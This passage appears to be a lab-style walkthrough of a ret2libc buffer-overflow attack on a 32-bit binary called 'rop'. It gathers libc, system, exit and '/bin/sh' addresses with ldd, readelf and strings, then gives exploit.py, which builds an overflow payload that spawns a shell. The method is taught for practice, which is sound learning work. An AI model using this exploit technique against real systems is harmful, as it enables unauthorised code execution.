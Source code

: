 1. Get libc address (`0xb7e19000`) using `ldd`:

```bash
$ ldd rop
        linux-gate.so.1 =>  (0xb7fda000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e19000)
        /lib/ld-linux.so.2 (0xb7fdb000)
```

### `system` and `exit` addresses

2. Locate the addresses of `system` (`0x0003ada0`) and `exit` (`0x0002e9d0`) functions: 

```bash
$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -i system
   245: 00112f20    68 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
   627: 0003ada0    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1457: 0003ada0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```

```bash
$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -i exit
   112: 0002edc0    39 FUNC    GLOBAL DEFAULT   13 __cxa_at_quick_exit@@GLIBC_2.10
   141: 0002e9d0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0
   450: 0002edf0   197 FUNC    GLOBAL DEFAULT   13 __cxa_thread_atexit_impl@@GLIBC_2.18
   558: 000b07c8    24 FUNC    GLOBAL DEFAULT   13 _exit@@GLIBC_2.0
   616: 00115fa0    56 FUNC    GLOBAL DEFAULT   13 svc_exit@@GLIBC_2.0
   652: 0002eda0    31 FUNC    GLOBAL DEFAULT   13 quick_exit@@GLIBC_2.10
   876: 0002ebf0    85 FUNC    GLOBAL DEFAULT   13 __cxa_atexit@@GLIBC_2.1.3
  1046: 0011fb80    52 FUNC    GLOBAL DEFAULT   13 atexit@GLIBC_2.0
  1394: 001b2204     4 OBJECT  GLOBAL DEFAULT   33 argp_err_exit_status@@GLIBC_2.1
  1506: 000f3870    58 FUNC    GLOBAL DEFAULT   13 pthread_exit@@GLIBC_2.0
  1849: 000b07c8    24 FUNC    WEAK   DEFAULT   13 _Exit@@GLIBC_2.1.1
  2108: 001b2154     4 OBJECT  GLOBAL DEFAULT   33 obstack_exit_failure@@GLIBC_2.0
  2263: 0002e9f0    78 FUNC    WEAK   DEFAULT   13 on_exit@@GLIBC_2.0
  2406: 000f4c80     2 FUNC    GLOBAL DEFAULT   13 __cyg_profile_func_exit@@GLIBC_2.2
```

### `"/bin/sh"` address

3. Final thing, we need a strings that contains `"/bin/sh"` (`0x15ba0b`)

```bash
$ strings -atx /lib/i386-linux-gnu/libc.so.6 | grep -i "/bin/sh"
 15ba0b /bin/sh
```

### Payload

`exploit.py` prepares our payload:

```python
#!/usr/bin/python
import struct

# 1. Create buffer
offset = 52
buffer = 'A' * offset
# 2. Little endian conversion
libc = 0xb7e19000
system = struct.pack('<I', libc + 0x0003ada0)
fn_exit = struct.pack('<I', libc + 0x0002e9d0)
binsh = struct.pack('<I', libc + 0x15ba0b)

payload = buffer + system + fn_exit + binsh

print(payload)
```
